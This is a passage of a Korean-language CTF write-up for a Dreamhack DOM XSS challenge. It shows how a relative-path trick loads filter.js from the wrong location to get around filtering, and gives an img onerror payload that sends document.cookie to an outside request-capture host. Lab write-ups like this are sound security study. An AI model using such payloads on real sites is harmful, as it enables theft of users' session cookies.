 + ```http://host1.dreamhack.games:17680/index.php?page=vuln&param=hello``` (위와 동일)

![image](https://user-images.githubusercontent.com/52172169/164951105-1466964f-fd1a-40eb-b877-4c1bbaa79f2c.png)

<br>

+ ```http://host1.dreamhack.games:17680/index.php/?page=vuln&param=hello```

![image](https://user-images.githubusercontent.com/52172169/164951111-2ab14a9a-ddd1-4406-976d-e39a1d86704f.png)

<br>

![image](https://user-images.githubusercontent.com/52172169/164956540-434453c1-c5c1-46d9-a81f-0257ada65c88.png)

<br>

경로에 따라 filter.js가 로드되는 경로가 달라진다. 

원래는 ```http://host1.dreamhack.games:17680/filter.js```이어야 하는데 ```http://host1.dreamhack.games:17680/index.php/filter.js```가 로드됨으로써 필터링을 우회할 수 있다.

따라서 원래는 최상위 경로에 존재하는 filter.js 파일을 찾았으나, 현재 경로가 ```/index.php/```로 바뀜으로써 ```/index.php/```에 존재하는 filter.js 파일을 찾게 되므로 위와 같이 index.php의 코드를 읽어오는 것이다.

<br>

이 문제는 DOM XSS 문제이므로 script 태그를 이용한 공격이 불가능하다고 한다. 따라서 on 핸들러를 이용한 공격을 할 수 있다고 한다.
: ```index.php/?page=vuln&param=<img src=1 onerror=location.href="https://xgezyqb.request.dreamhack.games?cookie="%2bdocument.cookie>```

<br>

innerHTML security_considerations
: <a href="https://developer.mozilla.org/ko/docs/Web/API/Element/innerHTML#security_considerations" target="_blank">developer.mozilla.org/ko/docs/Web/API/Element/innerHTML#security_considerations</a>

**HTML5 는 innerHTML 과 함께 삽입된 ```<script>``` 태그가 실행되지 않도록 지정한다고 한다! 그래서 강의에서도 script 태그를 이용한 공격이 불가능하다고 했던 것.**

<br><br>
<hr style="border: 2px solid;">
<br><br>
